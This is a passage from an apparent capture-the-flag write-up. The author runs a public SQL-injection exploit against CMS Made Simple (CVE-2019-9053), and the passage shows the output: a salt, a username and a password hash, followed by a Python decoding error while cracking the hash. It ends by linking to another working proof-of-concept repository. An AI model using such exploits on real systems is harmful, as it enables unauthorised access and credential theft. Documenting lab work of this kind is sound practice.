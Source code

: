- There are several others lines that will return a similar syntax error, including lines 25-19, 63, 69, and 183. 
- Now after we do all that, things look like they're working okay. Until they aren't. This is the output I got when running the `exploit.py` file after correcting the print errors:
```python
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96$
[*] Now try to crack password
Traceback (most recent call last):
  File "exploit.py", line 184, in <module>
    crack_password()
  File "exploit.py", line 53, in crack_password
    for line in dict.readlines():
  File "/usr/lib/python3.6/codecs.py", line 321, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 923: invalid continuation byte
```

- At this point, I basically gave up and went back to looking for other public PoC code. I found [this](https://github.com/e-renna/CVE-2019-9053) repository on GitHub that seemed to work out of the box. My scripting skills aren't great, so this was easier than trying to continue to figure out what was going wrong. I later discovered that the original PoC was written in Python 2 rather than Python 3. 
